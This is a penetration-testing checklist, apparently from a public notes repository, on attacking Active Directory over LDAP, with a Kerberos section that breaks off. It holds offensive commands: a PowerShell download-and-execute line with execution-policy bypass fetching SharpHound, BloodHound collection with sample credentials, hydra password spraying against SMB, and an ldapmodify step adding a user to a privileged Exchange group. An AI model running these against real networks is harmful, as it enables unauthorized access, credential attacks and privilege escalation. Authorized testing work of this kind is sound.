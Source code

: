 
## TCP/636 LDAP/LDAPS/Active Directory  
- [ ] Run BloodHound/SharpHound ingestor:
  ```
  # From windows on cmd.exe on domain-joined machine:
  powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound -CollectionMethod all"
  # From windows in powershell.exe from non-domain-joined machine:
  IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound -CollectionMethod all -Domain firenation.com -LdapUsername azula -LdapPassword S0z1nsC0m3t
  # From Kali with bloodhound.py
  bloodhound.py azula@firenation.com -p S0z1nsC0m3t -c All
  ```
  - [ ] Get `users.json` and extract a list of users for sprayin' and prayin'
  - [ ] Identify account lockout policy and duration `net accounts` (TODO: can also be grabbed via GPO on DC)
  - [ ] Spray n' pray mindful of above: `hydra -L users.lst -p 'Spring202X!' smb://target-smb-server`
  - [ ] Mark users as `Owned` as you go (if you get either their NT hash or cleartext creds), constantly looking for escalation paths
  - [ ] Search around and get a good feel for the environment. Mark certain interesting targets as high-value.
- Get AD module: `Add-WindowsFeature RSAT-AD-PowerShell` & `Import-Module ActiveDirectory`
### LDAP in Linux
- `ldapsearch` is a bit finnicky. To do an ldap dump with a valid user, you need to specify the LDAP path with `-D`. Below dumps everything:
  ```
  ldapsearch -x -H ldap://targetdc.com -b "DC=subdomain,DC=firenation,DC=com" -W -D "CN=user_to_auth_with,CN=group_usually_Users,DC=subdomain,DC=firenation,DC=com"
  ```
- You can add a specific filter at the end, using any LDAP attributes and wildcards: 
  ```
    ldapsearch -x -H ldap://targetdc.com -b "DC=subdomain,DC=firenation,DC=com" -W -D "CN=user_to_auth_with,CN=group_usually_Users,DC=subdomain,DC=firenation,DC=com" "(&(objectClass=user)(sAMAccountName=*pentester*))"
  ```
- Get users in a group:
  ```
  ldapsearch -x -H ldap://targetdc.com -b "DC=subdomain,DC=firenation,DC=com" -W -D "CN=user_to_auth_with,CN=group_usually_Users,DC=subdomain,DC=firenation,DC=com" "(&(objectClass=group)(CN=*domain admin*))"
  ```
- Example: add a user to a group using `ldapmodify`.
  ```
  > cat ldap-add-user-to-group.ldif 
  dn: CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=corp,DC=firenation,DC=com
  changetype: modify
  add: member
  member: CN=Delete Head,OU=Users,OU=Blah,OU=US,DC=corp,DC=firenation,DC=com
  > ldapmodify -x -H ldap://targetdc -W -D "CN=user_that_can_add,CN=group_usually_Users,DC=subdomain,DC=firenation,DC=com" -f ldap-add-user-to-group.ldif 
  modifying entry "CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=corp,DC=firenation,DC=com"
  > # check and make sure it worked!
  > ldapsearch -x -H ldap://targetdc.com -b "DC=subdomain,DC=firenation,DC=com" -W -D "CN=user_to_auth_with,CN=group_usually_Users,DC=subdomain,DC=firenation,DC=com" "(&(objectClass=group)(CN=Exchange Windows Permissions))"

## TCP/88 Kerberos
- KRB5 Guessing
  - Install the tool. Requires specific Java version:
    ```
  ```